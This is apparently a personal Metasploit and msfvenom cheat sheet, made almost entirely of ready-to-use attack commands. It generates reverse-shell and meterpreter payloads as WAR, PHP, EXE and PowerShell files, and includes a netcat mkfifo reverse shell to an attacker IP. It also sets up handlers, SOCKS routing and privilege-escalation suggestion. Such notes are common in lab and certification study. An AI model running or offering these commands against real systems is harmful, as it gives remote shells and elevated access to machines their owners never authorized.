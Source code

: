
MSFconsole
---
```
search $TARGET_SERVICE
# search type:exploit
use X
options
set LHOST
set RHOST
exploit
shell
background
```

See payload options:

```bash
msfvenom -p java/jsp_shell_reverse_tcp --list-options
```

Create payload:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LOCAL_IP LPORT=4444 -f war > runme.war
```

Create bash reverse shell line:

```bash
msfvenom -p cmd/unix/reverse_netcat RHOST=tun0 RPORT=4444 R
```

```bash
mkfifo /tmp/ipvquh; nc $LOCAL_IP 4444 0</tmp/ipvquh | /bin/sh >/tmp/ipvquh 2>&1; rm /tmp/ipvquh
```

Create reverse shell payload, exploit user and escalate to admin:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows LHOST=$LOCAL_IP LPORT=4444 -f exe -o shell.exe
#powershell rev shell generator
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$TARGET_IP$ LPORT=4444 -f psh -o meterpreter-64.ps1
```

```bash
msfconsole -q -x "load auto_add_route; use socks_proxy;run -j;use payload/windows/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 443; generate -f exe -o met.exe; to_handler"
```

Non-staged PHP reverse shell, netcat compatible

#msfvenom #revshell #php-shell

```bash
msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -f raw -o shell.pHP
```

```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=tun0 LPORT=443 -f exe -o shell.exe
msfconsole
use multi/handler
set payload windows/x64/meterpreter_reverse_https
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter_reverse_https;set LHOST tun0;set LPORT 443;run;"
```
the forward slash indicates that is a "staged" payload, the one with the underscore means it’s non-staged and can be handled by program like nc

```msfconsole
use windows/x64/meterpreter/reverse_tcp
use windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
exploit
use post/multi/recon/local_exploit_suggester
set session 1
exploit
#don't forget to set new handler to tun0 and new port
```

 ```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $LOCAL_IP;set LPORT 4444;run;" 
```